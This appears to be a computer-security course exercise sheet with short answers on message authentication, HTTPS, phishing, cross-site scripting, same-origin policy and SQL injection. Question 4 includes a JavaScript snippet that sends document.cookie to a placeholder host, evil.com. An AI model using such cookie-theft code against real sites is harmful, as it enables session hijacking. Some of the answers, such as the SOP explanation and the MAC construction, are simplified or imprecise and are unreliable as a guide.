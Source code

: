 # Exercises sheet 3

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?
	
	**ANS:** Barack can sign jokes with his private key.

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.
	
	**ANS:** Yes. As `k` is shared only between Hillary and Barack, no one can produce a valid d without knowing `k`. Also crypto hash are irreversible, Bill can not learn the secret `k` from d. See massege authentication code MAC slides.
	 
3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.
	
	**ANS:** This approach does not work as every member of cabinet has the secret `k` and thus is capable of creating the hash, i..e Tim can also claim that z is created by him.
	 
4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?
	
	**ANS:** No. Becuase of SOP, evil.com will not be able to access the cookies related to buy-all.bz.
	
5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.
	
	**ANS:** b
	
6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?
	
	**ANS:** Phishing can involved tricks that range from ebing very simple, like asking your credit cards details to sophisticated ones, like redirecting you to a spoofed site. HTTPS can prevent when it comes to site identity with the help of digital certificates. In other simpler cases, it may not be useful.
	 
7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.
	
	**ANS:** see slides on same origin policy. 
8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.
	
	**ANS:** se slides. Among other differences, one important one is that in the case of non-persistent (reflective), the attacker has to find each individual victim and send her/him the malicious link, whereas in the case of persistant, all an attacker has to do is to just poison the server.
9. Explain why input validation mitigates the risks of SQL injection attacks.
	
	**ANS:** to clean the input that may contain some specal characters, like single quote.
